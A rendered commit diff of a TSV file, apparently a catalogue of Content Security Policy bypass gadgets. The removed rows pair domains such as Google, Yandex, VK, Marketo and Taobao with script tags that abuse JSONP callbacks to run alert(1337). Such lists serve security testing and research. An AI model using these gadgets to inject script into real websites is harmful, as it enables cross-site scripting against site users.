

Before and after one commit to asuspctow/csp, a TSV file: domin.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; removed rows and columns are numbered as before the commit, all else as after; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Update domin.tsv

```diff
--- a/domin.tsv
+++ b/domin.tsv
-row 134: accounts.google.com <script src="https://accounts.google.com/o/oauth2/revoke?callback=alert(1337)"></script>
-row 135: maps.googleapis.com <script src="https://maps.googleapis.com/maps/api/js?key=[REPLACE_BY_GOOGLE_API_KEY_FROM_CURRENT_WEBSITE]&callback=alert(1337)"></script>
-row 136: www.blogger.com <script src="https://www.blogger.com/feeds/5578653387562324002/posts/summary/4427562025302749269?callback=alert(1337)"></script>
-row 137: translate.yandex.net <script src="https://translate.yandex.net/api/v1.5/tr.json/detect?callback=alert(1337)"></script>
-row 138: api-metrika.yandex.ru <script src="https://api-metrika.yandex.ru/management/v1/counter/1/operation/1?callback=alert"></script>
-row 139: api.vk.com <script src="https://api.vk.com/method/wall.get?callback=alert(1337)"></script>
-row 140: app-sjint.marketo.com <script src="https://app-sjint.marketo.com/index.php/form/getKnownLead?callback=alert()"></script>
-row 141: app-e.marketo.com <script src="https://app-e.marketo.com/index.php/form/getKnownLead?callback=alert()"></script>
-row 142: detector.alicdn.com <script src="https://detector.alicdn.com/2.7.3/index.php?callback=alert(1337)"></script>
-row 143: suggest.taobao.com <script src="https://suggest.taobao.com/sug?callback=alert(1337)"></script>
```
Also changed, not shown: 40 added rows and 30 removed rows elsewhere in this file.
